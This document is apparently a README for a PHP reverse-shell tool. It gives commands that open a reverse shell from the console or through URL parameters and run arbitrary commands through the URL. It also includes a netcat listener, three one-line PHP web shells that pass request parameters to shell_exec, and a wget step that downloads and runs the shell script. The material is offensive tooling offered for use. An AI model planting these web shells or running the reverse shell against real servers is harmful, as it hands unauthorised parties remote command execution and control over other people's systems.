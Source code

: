# PHP Smart Reverse Shell scripts

## Script Commands
Call reverse shell from console
```shell
php ./srs.php 127.0.0.1 1234
```
Call reverse shell from url
```url
https://example.com/srs.php?ip=127.0.0.1&port=1234
```
Run command from url
```url
https://example.com/srs.php?c=ls%20-la
```
Run command from url (redirect errors to stdout)
```url
https://example.com/srs.php?r=ls%20-la
```
## Usefull commands

Wait for reverse shell connection
```shell
nc -l 127.0.0.1 4444
```

Executing shell code with PHP
```PHP
<?php echo shell_exec($_GET['command']);?>
```
or
```PHP
<?=isset($_GET['c'])?shell_exec($_GET['c']):'';?>
```
or 
```PHP
<?php if(isset($_GET['c'])){header('Content-Type: text/plain');die(shell_exec($_REQUEST['c'].'2>&1'));}?>
```

Download Smart Reverse Shell and open shell connection
```shell
wget -O srs.php https://raw.githubusercontent.com/GramThanos/php-smart-reverse-shell/master/srs.php
php ./srs.php 127.0.0.1 1234
```
